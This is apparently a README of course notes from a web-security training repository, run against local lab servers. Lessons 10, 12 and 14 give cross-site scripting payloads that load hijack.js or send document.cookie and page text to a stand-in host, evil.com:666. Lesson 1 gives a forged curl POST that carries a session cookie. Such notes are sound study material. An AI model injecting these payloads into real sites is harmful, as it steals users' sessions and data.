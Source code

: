 # Web Security Essentials

The code in this repository is based on the
[Web Security Essentials](https://egghead.io/lessons/express-course-overview-web-security-essentials)
course.
The preceding repository was also forked to
[this repo](https://github.com/carltonj2000/web-security-essentials)

## Setup

From the repository link in the above section, did the following:

- Used the code from `./exercises/01` as the starter code.
  - deleted `_INSTRUCTIONS.md` and `_SOLUTIONS.md`.
- Copied `./package.json` and ran `npm install` to install the dependencies.
- Ran `npm run start` and verified `http://localhost.charlesproxy.com`.
- Ran `npm run start:evil.com` and verified `https://evil.com:666`.
- Notes from each lessons follows in reverse chronological order.
- [Git hub repo](https://github.com/carltonj2000/web-sec-ess)
  created with all content note above.

## Lesson 14

---

<script src="https://evil.com:666/hijack.js"></script>

---

## Lesson 12

---

<script>
  var data = document.body.innerText;
  console.log(data);
  var payload = encodeURIComponent(data);
  var img = new Image();
  img.src = `https://evil.com:666/hijack?payload=${payload}`;
</script>

---

## Lesson 10

---

<script>
  var payload = encodeURIComponent(document.cookie);
  var img = new Image();
  img.src = `https://evil.com:666/hijack?payload=${payload}`;
</script>

---

## Lesson 1

In the `./exercises/01` ran `npm start` and `npm run start:evil.com`.
Use `proxyman` to capture a post request from `localhost.charlesproxy.com` and
modified the following lines to post a custom message. Deleted the proxy line.

---

-H 'Content-Length: 13' \
--proxy http://localhost:9090 \
-d 'message=hello'

---

---

curl 'http://localhost.charlesproxy.com/' \
-X POST \
-H 'Accept: _/_' \
-H 'Host: localhost.charlesproxy.com' \
-H 'Accept-Language: en-US,en;q=0.9,vi-VN;q=0.8,vi;q=0.7' \
-H 'Referer: http://localhost.charlesproxy.com/' \
-H 'Content-Length: 24' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36' \
-H 'Origin: http://localhost.charlesproxy.com' \
-H 'Proxy-Connection: keep-alive' \
--cookie '\_ga=GA1.2.761887530.1582043871; \_gid=GA1.2.218915999.1582043871; connect.sid=s%3AzLtpL8zTUgQLX0EwsUX9uMuHwZTezm-z.pxrPgt%2BNCyiV678Gz%2BUUOfuUUhRXl%2FWuW2PyH204oLk' \
-d 'message=carlton+was+here'

---
